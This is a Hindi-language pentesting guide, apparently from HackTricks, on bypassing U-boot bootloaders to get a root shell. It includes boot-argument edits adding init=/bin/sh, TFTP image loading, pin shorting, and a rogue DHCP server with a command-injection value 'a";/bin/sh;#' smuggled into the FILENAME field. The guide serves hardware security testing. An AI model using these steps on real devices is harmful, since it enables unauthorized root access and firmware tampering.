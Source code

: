 {{#include ../../banners/hacktricks-training.md}}

डिवाइस स्टार्टअप कॉन्फ़िगरेशन और बूटलोडर्स जैसे U-boot को संशोधित करने के लिए निम्नलिखित चरणों की सिफारिश की जाती है:

1. **बूटलोडर के इंटरप्रेटर शेल तक पहुँचें**:

- बूट के दौरान, बूटलोडर के इंटरप्रेटर शेल तक पहुँचने के लिए "0", स्पेस, या अन्य पहचाने गए "जादुई कोड" दबाएँ।

2. **बूट आर्गुमेंट्स को संशोधित करें**:

- बूट आर्गुमेंट्स में '`init=/bin/sh`' जोड़ने के लिए निम्नलिखित कमांड्स निष्पादित करें, जिससे शेल कमांड का निष्पादन संभव हो सके:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **TFTP सर्वर सेटअप करें**:

- स्थानीय नेटवर्क पर इमेज लोड करने के लिए एक TFTP सर्वर कॉन्फ़िगर करें:
%%%
#setenv ipaddr 192.168.2.2 #डिवाइस का स्थानीय IP
#setenv serverip 192.168.2.1 #TFTP सर्वर IP
#saveenv
#reset
#ping 192.168.2.1 #नेटवर्क एक्सेस की जाँच करें
#tftp ${loadaddr} uImage-3.6.35 #loadaddr फ़ाइल को लोड करने के लिए पता लेता है और TFTP सर्वर पर इमेज का फ़ाइल नाम
%%%

4. **`ubootwrite.py` का उपयोग करें**:

- रूट एक्सेस प्राप्त करने के लिए U-boot इमेज लिखने और संशोधित फर्मवेयर को पुश करने के लिए `ubootwrite.py` का उपयोग करें।

5. **डिबग सुविधाओं की जाँच करें**:

- यह सत्यापित करें कि क्या डिबग सुविधाएँ जैसे विस्तृत लॉगिंग, मनमाने कर्नेल लोड करना, या अविश्वसनीय स्रोतों से बूट करना सक्षम हैं।

6. **सावधानीपूर्वक हार्डवेयर हस्तक्षेप**:

- डिवाइस बूट-अप अनुक्रम के दौरान एक पिन को ग्राउंड से जोड़ने और SPI या NAND फ्लैश चिप्स के साथ बातचीत करते समय सावधान रहें, विशेष रूप से कर्नेल के डिकंप्रेस होने से पहले। पिन को शॉर्ट करने से पहले NAND फ्लैश चिप के डेटा शीट की जांच करें।

7. **रोग DHCP सर्वर कॉन्फ़िगर करें**:
- PXE बूट के दौरान डिवाइस द्वारा ग्रहण करने के लिए दुर्भावनापूर्ण पैरामीटर के साथ एक रोग DHCP सर्वर सेट करें। Metasploit के (MSF) DHCP सहायक सर्वर जैसे उपकरणों का उपयोग करें। डिवाइस स्टार्टअप प्रक्रियाओं के लिए इनपुट मान्यता का परीक्षण करने के लिए कमांड इंजेक्शन कमांड जैसे `'a";/bin/sh;#'` के साथ 'FILENAME' पैरामीटर को संशोधित करें।

**नोट**: डिवाइस पिन के साथ भौतिक इंटरैक्शन से संबंधित चरणों (\*तारों के साथ चिह्नित) को डिवाइस को नुकसान से बचाने के लिए अत्यधिक सावधानी के साथ किया जाना चाहिए।

## संदर्भ

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{{#include ../../banners/hacktricks-training.md}}
